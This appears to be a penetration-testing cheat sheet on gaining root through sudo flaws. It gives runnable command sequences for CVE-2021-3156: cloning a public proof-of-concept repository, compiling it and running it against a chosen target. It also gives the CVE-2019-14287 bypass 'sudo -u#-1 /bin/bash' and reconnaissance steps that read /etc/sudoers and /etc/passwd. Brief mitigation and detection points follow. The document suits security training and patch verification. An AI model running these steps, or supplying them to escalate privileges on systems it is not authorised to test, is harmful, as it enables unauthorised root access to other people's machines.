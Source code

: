 ### Check sudo version
```bash
sudo -V | head -n1
```

## Check sudoers file (excluding comments and empty lines)
```bash
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

### Check OS version
```bash
cat /etc/lsb-release # or cat /etc/os-release
```

### Clone exploit
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
```

# Compile exploit
```bash
make
```

### Run exploit (replace <target_id> with the appropriate target ID)
```bash
./sudo-hax-me-a-sandwich <target_id>
```

### Verify root access
```bash
id
whoami
```

## Check sudo privileges
```bash
sudo -l
```

### Check user ID (if needed)
```bash
cat /etc/passwd | grep <username>
```

### Run command as root
```bash
sudo -u#-1 id
sudo -u#-1 /bin/bash # or /bin/sh
```

### Verify root access
```bash
id
whoami
```



**1. CVE-2021-3156 (Heap-Based Buffer Overflow):**

- **Vulnerability:**
    - Heap-based buffer overflow in `sudo`.
    - Affected versions: 1.8.31 (Ubuntu 20.04), 1.8.27 (Debian 10), 1.9.2 (Fedora 33), and others.
- **Exploitation:**
    - Requires a Proof-of-Concept (PoC) exploit.
    - Compile and run the exploit.
    - Select the appropriate target (OS version).
- **Mitigation:**
    - Update `sudo` to a patched version.
- **Commands:**
    - `sudo -V` (check `sudo` version)
    - `git clone https://github.com/blasty/CVE-2021-3156.git`
    - `make`
    - `./sudo-hax-me-a-sandwich <target_id>`
    - `cat /etc/lsb-release` (check OS version)

**2. CVE-2019-14287 (Sudo Policy Bypass):**

- **Vulnerability:**
    - Allows bypassing `sudo` policy restrictions.
    - Affected `sudo` versions below 1.8.28.
    - Requires the user to be allowed to run a specific command via sudo.
- **Exploitation:**
    - Use `sudo -u#-1 <command>` to run a command as root.
    - `-u#-1` is interpreted as `-u0` (root).
- **Mitigation:**
    - Update `sudo` to a patched version.
- **Commands:**
    - `sudo -l` (check `sudo` privileges)
    - `cat /etc/passwd | grep <username>` (check user ID)
    - `sudo -u#-1 id`

**Important Considerations and Enhancements:**

- **Vulnerability Severity:**
    - Both vulnerabilities are critical.
    - They allow unprivileged users to gain root access.
- **Patching:**
    - Keeping `sudo` updated is essential.
- **Sudo Configuration:**
    - Properly configuring `/etc/sudoers` is crucial.
- **Exploit Reliability:**
    - PoC exploits may require adjustments for specific systems.
- **Detection:**
    - Monitor `sudo` logs for suspicious activity.
    - Use intrusion detection systems.
- **Real world examples:** Researching real world sudo exploits will help solidify understanding of the attack vectors.
- **Sudoers file:** more detail could be given about the syntax of the sudoers file.
- **Nopasswd:** More detail could be given about the security implications of the NOPASSWD flag in the sudoers file.